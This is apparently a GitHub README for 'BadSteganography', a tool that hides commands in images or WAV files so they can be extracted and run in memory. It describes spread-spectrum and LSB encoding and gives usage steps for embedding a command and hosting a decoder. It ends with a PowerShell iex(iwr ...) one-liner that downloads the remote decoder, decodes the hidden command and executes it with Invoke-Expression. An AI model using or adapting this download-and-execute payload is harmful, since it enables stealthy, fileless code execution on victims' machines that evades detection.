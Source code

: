 # BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# LSB Encoding
The steganography method used in the provided code is called “LSB (Least Significant Bit) steganography.” In this method, the least significant bit of each color channel (RGB) of the pixels in a specified region of an image is replaced with a bit of the secret data. This is done in such a way that the change is not visually noticeable in the image, but the secret data can be retrieved by reading the least significant bits of the color channels in the same region.

# Usage
For the spread spectrum encoding script, grab a audio file.
1. Replace the audio path in the py file
2. Replace the message with whatever command in the py file
![BadSteganographyspread_spectrum_decode txt at main · CharlesTheGreat77BadSteganography](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/c184577f-c9b1-4bd6-a2ce-643e0a6abf43)
4. Run the py file and save the length of the message
5. In the decoder, replace the message Length variable to whatever the length of your message is (leave it as a multiple of 8)
![Screenshot 2024-01-15 at 1 12 20 PM](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/16c9cdc6-ba85-41fb-8beb-d113d976f8b8)
7. Lastly, replace the url in the decoder to where your decoder will be hosted.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(iwr https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content | iex
```
